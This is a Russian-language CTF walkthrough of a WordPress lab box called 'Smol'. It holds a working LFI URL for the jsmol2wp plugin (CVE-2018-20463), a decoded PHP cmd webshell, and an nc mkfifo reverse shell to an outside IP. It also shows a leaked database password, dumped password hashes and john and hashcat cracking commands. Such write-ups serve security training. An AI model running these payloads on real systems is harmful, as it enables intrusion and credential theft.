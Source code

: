 
![[../attachment/Pasted image 20250225231859.png]]
для доступа к сайту добавим target ip и domain в /etc/hosts

Изучив сайт мы видим что это wordpress и запускаем wpscan

![[../attachment/Pasted image 20250225232047.png]]

Из интересного видим jsmol2wp и находим CVE-2018-20463, которое дает нам LFI 
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

![[../attachment/Pasted image 20250225224202.png]]
Находим пароля и логин пользователя, заходим в wp-admin и видим приватный пост 

![[../attachment/Pasted image 20250225232310.png]]
Читаем  исходный код с помощью найденной LFI и находим упомянутый backdoor
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php

![[../attachment/Pasted image 20250225232424.png]]
1. декодирует строку в base64
2. выполняет код с помощью eval
3. выполняет все что передано в cmd
Если мы расшифруем 

```
 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
 
 Расшифруем php
<?   
 if (isset($_GET["cmd"])) { system($_GET["cmd"]); }  ?> 
```

Попробуем rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.21.61.35 6653 >/tmp/f

http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.21.61.35%206653%20%3E%2Ftmp%2Ff

![[../attachment/Pasted image 20250225230421.png]]
python3 -c 'import pty;pty.spawn("/bin/bash");'

Проверим БД
1. подключаем mysql -u wpuser -p'kbLSF2Vop#lw3rjDZ629*Z%G' -D wordpress
2. Проверяем таблицы show tables;
3. Проверяем колонки в таблице show columns wp_users;
4. запрашиваем пользователей и пароли  select user_login, user_pass from wp_users;
admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
| wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. |
| think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
| gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
| diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
| xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1

Сохраняем пользователей и хеши в отдельный файл и запускаем john
![[../attachment/Pasted image 20250225233048.png]]

подключение по ssh не удалось, но можем подключиться из существующего шелла.
Получаем первый флаг пользователя
![[../attachment/Pasted image 20250225233246.png]]
![[../attachment/Pasted image 20250225233327.png]]

diego принадлежит группе internal
![[../attachment/Pasted image 20250225233539.png]]


![[../attachment/Pasted image 20250225233626.png]]

![[../attachment/Pasted image 20250225233717.png]]
![[../attachment/Pasted image 20250225233731.png]]

![[../attachment/Pasted image 20250225233854.png]]

![[../attachment/Pasted image 20250225233911.png]]


![[../attachment/Pasted image 20250225234609.png]]


gege@smol:~$ python3 -m http.server 8080

wget http://www.smol.thm:8080/wordpress.old.zip

zip2john wordpress.old.zip > arch_hash.txt
![[../attachment/Pasted image 20250225234758.png]]

hashcat -a 0 -m 17225  arch_hash.txt /usr/share/wordlists/rockyou.txt

![[../attachment/Pasted image 20250225235126.png]]


![[../attachment/Pasted image 20250225235228.png]]


![[../attachment/Pasted image 20250225235302.png]]

![[../attachment/Pasted image 20250225235745.png]]
забираем root флаг
![[../attachment/Pasted image 20250225235847.png]]
